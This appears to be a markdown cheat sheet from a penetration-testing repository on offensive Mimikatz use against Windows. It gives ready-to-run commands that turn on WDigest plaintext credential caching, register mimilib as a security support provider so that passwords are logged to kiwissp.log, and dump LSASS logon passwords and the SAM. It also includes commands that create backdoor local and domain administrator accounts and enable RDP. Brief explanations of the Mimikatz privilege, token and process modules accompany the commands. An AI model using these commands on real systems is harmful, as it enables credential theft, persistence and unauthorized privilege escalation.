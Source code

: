 ### Rudimentary Mimikatz_Note

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 By Default since window 10 relase.
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
# Security Support Provider
Security Support Provider Interface (SSPI) is a Win32 API used by Microsoft Windows systems to perform a variety of security-related operations.
The LSASS process is loading the security support provider DLL’s during Windows startup therefore SSP May Allow an attacker to leverage to persist and stealing plaintest password in the context of affect compromised box.
```
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
type C:\Windows\System32\kiwissp.log


```
![Image of Yaktocat](https://github.com/NyaMeeEain/Infrastructure-Assessment/raw/master/Lateral%20Movement/Images/SSP.PNG)

Upon rebooting the Machine, The users used credentials would be located as  **C:\Windows\System32\kiwissp.log** T**ested against Window updated Version 10.0.19041.388 Build**
![Image of \kiwissp.log](https://github.com/NyaMeeEain/Infrastructure-Assessment/raw/master/Lateral%20Movement/Images/SSP_Log.PNG)
###
```
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
mimikatz token::elevate lsadump::sam
mimikatz "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"
mimikatz "lsadump::sam"
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
```
# Rudimentary Mimikatz
A privilege is a right granted to an account to perform privileged operations within the operating system. Mimikatz allows the request of privileges for it’s current process to allow it to perform the tasks it needs.
# Privilege Modules

* **privilege::debug** - SeDebugPrivilege is very powerful,it allows the holder to debug another process, this includes reading and writing to that process' memory.

* **privilege::driver** - SeLoadDriverPrivilege Required to load or unload a device driver. Drivers run in the kernel in ring 0. A user using this privilege must already be able to have write access to HKLM or the code have workaround abusing RID references in HKCU

* **privilege::security** - SeSecurityPrivilege Required to perform a number of security-related functions, such as controlling and viewing audit messages. This privilege identifies its holder as a security operator. User Right:Manage auditing and security log.

* **privilege::tcb** - SeTcbPrivilege This privilege identifies its holder as part of the trusted computer base. Some trusted protected subsystems are granted this privilege, abused for privilege escalation.

* **privilege::backup** - SeBackupPrivilege This privilege causes the system to grant all read access control to any file, regardless of the access control list (ACL) specified for the filee.

* **privilege::restore** - SeRestorePrivilege Required to perform restore operations. Causes the system to grant all write access control to any file on the system, regardless of the files ACL.

* **privilege::sysenv** - SeSystemEnvironmentPrivilege Required to modify the nonvolatile RAM of systems that use this type of memory to store configuration information.User Right: Modify firmware environment values.


# Tokens Modules
Every process or thread created by a user inherits a copy of their token.This token is used by to perform access checks when accessing securable objects or performing privileged actions within the operating system.Impersonation allows for a thread to perform an operationusing an access token from another user or client.
Impersonation tokens are typically used in client/server communication.


* **token::whoami** - Display current identity

* **token::list** - List all or selected tokens of the system

* **token::elevate** - Impersonate a token

* **token::run** - run a program and assign the specified token

The command **token::whoami** will display tokens available to the session

* token::list /user:John
* token::list /domainadmin 
* token::list /enterpriseadmin

# Process Module
The process modules allows for manipulating processes, creating new processes

* **process::list** command will enumerate and list current running processes with basic information.

# Creating a Process
* **process::run** - The command will execute the command and show the output of the command. The command that is ran must exit or it will hang the session
* **process::start** - The command will start the process. The PID of the process will be returned
```
process::run "cmd.exe /c hostname && ipconfig"
process::run "cmd.exe /c net user MeMe 123456!@ /add && net localgroup "Remote Desktop users" MeMe /add && net localgroup Administrators MeMe /add"
process::run "cmd.exe /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f"
process::run "cmd.exe /c  net user MeMe 123456!@ /add && net group "domain admins" MeMe /add"
```
